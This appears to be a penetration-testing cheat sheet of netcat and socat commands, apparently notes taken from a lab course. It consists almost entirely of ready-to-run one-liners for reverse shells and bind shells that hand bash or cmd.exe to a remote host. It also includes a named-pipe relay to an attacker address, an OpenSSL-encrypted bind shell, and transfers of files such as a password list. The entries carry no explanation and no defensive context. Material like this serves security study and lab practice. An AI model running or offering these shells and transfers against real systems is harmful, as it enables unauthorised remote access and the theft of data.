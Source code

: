 netcat and socat

Transferring files:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -nlvp 4444 > incoming.exe

nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Binding session to process/executable:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -nlvp 4444 -e cmd.exe

nc -nv 10.11.0.22 4444

nc -v -n 10.10.14.32 7777 -e C:\windows\System32\cmd.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Reverse Shell:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -nlvp 4444

nc -nv 10.11.0.22 4444 -e /bin/bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Netcat Relay (for netcat without -e option)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc <ATTACKERIP> <ATTACKERPORT> 1>/tmp/backpipe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

NetCat vs SoCat

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc <remote server's ip address> 80

socat - TCP4:<remote server's ip address>:80
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -lvp localhost 443

socat TCP4-LISTEN:443 STDOUT
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SoCat File Transfers

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
socat TCP4-LISTEN:443,fork file:secret_passwords.txt

socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SoCat Reverse Shells

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
socat -d -d TCP4-LISTEN:443 STDOUT

socat TCP4:10.11.0.22:443 EXEC:/bin/bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SoCat Encrypted Bind Shells

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

cat bind_shell.key bind_shell.crt > bind_shell.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

socat - OPENSSL:10.11.0.4:443,verify=0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
